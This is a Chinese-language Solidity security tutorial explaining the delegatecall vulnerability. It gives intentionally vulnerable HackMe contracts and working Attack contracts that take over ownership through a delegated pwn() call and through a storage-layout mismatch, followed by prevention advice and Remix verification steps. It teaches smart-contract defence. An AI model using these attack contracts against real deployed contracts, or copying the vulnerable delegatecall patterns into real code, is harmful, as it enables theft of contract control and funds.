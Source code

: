 # 70.delegatecall
Solidity的delegatecall漏洞是一种安全漏洞，可以允许攻击者通过调用另一个合约的方法来执行恶意代码。这种漏洞的根本原因是delegatecall的实现方式，该实现方式将调用的代码的上下文（存储、地址等）与调用方的合约合并在一起，从而可能导致意外的行为。
## 漏洞
delegatecall的使用很棘手，错误的使用或不正确的理解可能会导致灾难性的结果。
在使用delegatecall时，您必须记住两件事：
1. delegatecall保留上下文（存储，调用者等...）
2. 调用delegatecall的合约和被调用的合约的存储布局必须相同。
### 合约漏洞例子
* Lib合约。
它有一个公共变量 "owner"，代表合约的拥有者地址。合约中有一个公共函数 "pwn()"，当该函数被调用时，会将合约的拥有者地址设置为调用该函数的地址。
```solidity
contract Lib {
    address public owner;

    function pwn() public {
        owner = msg.sender;
    }
}
```

* HackMe合约
它有一个公共变量owner，表示合约的所有者地址，以及一个名为lib的公共变量，表示该合约依赖的Lib合约。
由于delegatecall()函数的特性，如果lib合约中存在恶意代码，则可以利用fallback()函数将其调用到当前合约中，并在当前合约的上下文中执行。因此，该合约存在安全隐患，可能被黑客攻击。
```solidity
contract HackMe {
    address public owner;
    Lib public lib;
    
    //构造函数中，传入一个Lib类型的参数_lib，并将msg.sender赋值给owner，将_lib强制转换为Lib类型并赋值给lib变量
    constructor(Lib _lib) {
        owner = msg.sender;
        lib = Lib(_lib);
    }
    //fallback()函数中，使用delegatecall()函数调用lib合约，并将msg.data作为参数传递给它。
    fallback() external payable {
        address(lib).delegatecall(msg.data);
    }
}
```
HackMe是一个使用delegatecall执行代码的合约。由于HackMe内部没有更改所有者的功能，因此更改所有者并不明显。但攻击者可以通过利用delegatecall来劫持合约。让我们看看如何实现。

1. Alice部署了Lib。
2. Alice使用Lib的地址部署了HackMe。
3. Eve使用HackMe的地址部署了Attack。
4. Eve调用Attack.attack()。
5. 现在Attack是HackMe的所有者。

发生了什么？

Eve调用了Attack.attack()。
Attack调用了HackMe的fallback函数，并发送了pwn()函数的函数选择器。
HackMe使用delegatecall将调用转发到Lib。
在这里，msg.data包含pwn()函数的函数选择器。
这告诉Solidity在Lib内部调用函数pwn()。
函数pwn()将所有者更新为msg.sender。
Delegatecall使用HackMe的上下文运行Lib的代码。
因此，HackMe的存储被更新为msg.sender，其中msg.sender是HackMe的调用者，即Attack。

```solidity
contract Attack {
    address public hackMe;

    constructor(address _hackMe) {
        hackMe = _hackMe;
    }

    function attack() public {
        hackMe.call(abi.encodeWithSignature("pwn()"));
    }
}
```

### 另一个例子。
在你理解这个漏洞之前，你需要了解Solidity如何存储状态变量。
这是比前一个漏洞例子的更复杂版本。

1. Alice部署Lib和HackMe，并将Lib的地址传递给它们
2. Eve部署Attack并将HackMe的地址传递给它
3. Eve调用Attack.attack()
4. 现在Attack是HackMe的所有者

发生了什么？
请注意，Lib和HackMe中的状态变量没有以相同的方式定义。这意味着调用Lib.doSomething()将更改HackMe内的第一个状态变量，该变量恰好是lib的地址。

在attack()函数内，第一次调用doSomething()会更改存储在HackMe中的lib地址。现在，lib的地址被设置为Attack。

第二次调用doSomething()会调用Attack.doSomething()，在这里我们更改了所有者。
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract Lib {
    uint public someNumber;

    function doSomething(uint _num) public {
        someNumber = _num;
    }
}

contract HackMe {
    address public lib;
    address public owner;
    uint public someNumber;

    constructor(address _lib) {
        lib = _lib;
        owner = msg.sender;
    }

    function doSomething(uint _num) public {
        lib.delegatecall(abi.encodeWithSignature("doSomething(uint256)", _num));
    }
}

contract Attack {
    // 确保存储布局与HackMe相同
    // 这将使我们能够正确地更新状态变量。
    address public lib;
    address public owner;
    uint public someNumber;

    HackMe public hackMe;

    constructor(HackMe _hackMe) {
        hackMe = HackMe(_hackMe);
    }

    function attack() public {
        // 覆盖lib的地址
        hackMe.doSomething(uint(uint160(address(this))));
        // 如果将任何数字作为输入传递，下面的函数doSomething()将被调用。
        hackMe.doSomething(1);
    }

    // 函数签名必须与HackMe.doSomething()匹配。
    function doSomething(uint _num) public {
        owner = msg.sender;
    }
}
```
### 预防性技术
* 使用无状态库
* 为了避免这种漏洞，开发人员应该避免在智能合约中使用delegatecall，并始终使用call或send来调用其他合约的函数。此外，开发人员还应该谨慎处理来自外部合约的数据，并使用安全的输入验证和过滤机制来防止攻击者利用漏洞。
  
## remix验证
1. 部署合约Lib和HackMe以及Attack，在Attack合约中调用attack（）函数，Hackme合约owner被修改为Attack地址。
![70-1.png](./img/70-1.png)
2. 部署合约Lib和HackMe以及Attack，在Attack合约中调用attack（）函数，Hackme合约owner被修改为Attack地址。在attack()函数内，第一次调用doSomething()会更改存储在HackMe中的lib地址。现在，lib的地址被设置为Attack，第二次调用doSomething()会调用Attack.doSomething()，owner被修改。
![70-2.png](./img/70-2.png)
